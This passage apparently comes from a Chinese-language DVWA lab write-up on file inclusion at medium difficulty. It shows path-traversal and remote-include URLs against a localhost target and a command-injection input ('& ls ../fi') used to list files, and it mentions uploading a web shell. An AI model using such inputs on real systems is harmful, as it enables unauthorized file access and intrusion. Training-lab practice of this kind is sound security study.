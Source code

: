 ### 觀察

```bash
[../hackable/flags/fi.php](http://localhost:8086/hackable/flags/fi.php)
```

```bash
http://localhost:8086/hackable/flags/fi.php
```

無法用之前的方法 include，不論是直接存取上上層或遠端載入，該怎麼辦 ? 😮‍💨

```bash
http://localhost:8086/vulnerabilities/fi/?page=../../hackable/flags/fi.php
```

```bash
localhost:8086/vulnerabilities/fi/?page=http://localhost:8086/hackable/flags/fi.php
```

先透過 command injection 偷看確認一下這題的檔案

```bash
& ls ../fi
```

![Untitled](DVWA%20-%20medium%20e321411a64fa4f7c9a4e674a9a8bf23e/Untitled%2025.png)

其實這邊也可以都一隻 web shell 進去，方便瀏覽檔案，不過既然題目說要用 file inclusion，那就不用這招了
